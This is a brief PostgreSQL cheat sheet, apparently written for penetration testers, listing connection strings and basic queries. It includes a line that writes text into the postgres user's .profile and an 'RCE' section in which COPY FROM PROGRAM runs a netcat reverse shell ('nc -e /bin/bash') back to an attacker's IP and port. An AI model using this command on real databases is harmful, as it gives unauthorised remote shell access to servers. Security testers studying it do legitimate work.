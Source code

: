 ```yaml
---
title: "Postgresql"
date: 2024-7-9
tags: ["postgresql", "database"]
---
```


### Connect

<div>

```console
psql -h 127.0.0.1 -U <USER> -p 5432 -d <DB_NAME>
```

```console
psql 'postgresql://<USER>:<PASSWORD>@localhost:5432/<DB_NAME>'
```

</div>

### Basic

<div>

```console
# Show databases
\list
```

```console
# Use database
\connect <DB_NAME>
```

```console
# Show tables in current database
\dt
```

```console
# Dump data from table
select * from <TABLE_NAME>;
```

```console
# Insert data into table (e.g)
insert into <TABLE_NAME> (username, password, role) values ('user', 'password', 'admin');
```

```console
# Write text
copy (select '<STRING>') to '/var/lib/postgresql/.profile';
```

```console
# Exit
\q
```

</div>

<br>

---

### RCE

<div>

```console
# Only superuser
CREATE TABLE IF NOT EXISTS exec(string text); COPY exec FROM PROGRAM 'nc -e /bin/bash <LOCAL_IP> <LOCAL_PORT> &'
```

</div>

<br>
